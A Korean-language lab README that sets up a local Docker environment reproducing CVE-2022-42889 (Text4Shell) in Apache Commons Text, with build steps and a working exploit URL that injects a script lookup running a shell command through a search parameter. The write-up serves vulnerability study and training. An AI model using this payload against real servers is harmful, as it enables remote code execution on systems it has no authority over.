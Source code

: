 # CVE-2022-42889
> 화이트햇 스쿨 3기 - 김동환

**vulhub.org에 없는 CVE환경을 구성하였습니다.**

<br/>

### 요약

- CVE-2022-42889는 Apache Commons Text 라이브러리(1.5 ~ 1.9 버전)에서 발견된 원격 코드 실행(RCE) 취약점입니다.

- 특정 버전의 Commons Text는 문자열 변수 치환(StringSubstitutor) 시 기본값으로 포함된 특정 조회(lookup) 기능(예: script, dns, url)을 통해 외부 입력값을 처리합니다.
- 이 중 script 조회 기능 등은 외부에서 제공된, 신뢰할 수 없는 스크립트나 데이터를 처리하여 실행할 수 있으므로, 공격자는 조작된 문자열(예: ${script:javascript:...})을 입력값으로 전달하여 서버에서 임의의 코드를 실행시킬 수 있습니다.
- 따라서 악의적인 공격자는 취약한 라이브러리를 사용하는 애플리케이션에 특수하게 조작된 입력값을 전송함으로써, 해당 서버의 제어권을 획득하거나 추가 공격을 수행할 수 있습니다.

<br>

---

<br>

### 환경 구성 및 실행 (MAC OS)
<br>

1. 명령어 실행


```
$ brew install maven
$ git clone https://github.com/alxqkekrroqkfwk/kr-vulhub
$ cd /Apache-Commons-Text/CVE-2022-42889
$ mvn clean install
$ docker build --tag=text4shell .
$ docker run -p 8080:8080 text4shell
```

<br>

2. 취약 서버 구동

![alt text](image.png)

<br>

3. 서버 구동 후 정상 접근 확인

![alt text](image2.png)

<br>

4. 피해 시스템 / tmp 파일 내용 확인
```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image3.png)

<br>

5. 파라미터 값 조작 후 Exploit 진행
```
http://localhost:8080/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec(%27touch%20%2Ftmp%2Fexploit%27)%7D
```

![alt text](image4.png)

> search 파라미터에 **${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}** 을 URL로 한번 인코딩 후 Exploit 진행




<br/>



### 결과


```
docker ps -a
sudo docker exec -it {NAME} ls /tmp/
```
![alt text](image5.png)
> exploit 파일 생성 확인

<br/>

### 정리

CVE-2022-42889는 Apache Commons Text 1.5~1.9 버전의 문자열 보간 기능에서 ${script:javascript:...} 형태의 입력을 통해 서버에서 임의 명령어가 실행되는 원격 코드 실행 취약점으로, 1.10.0 버전에서 해당 기능이 비활성화되며 해결되었고, 입력값 검증 부재로 인한 치명적 보안 리스크를 보여줍니다.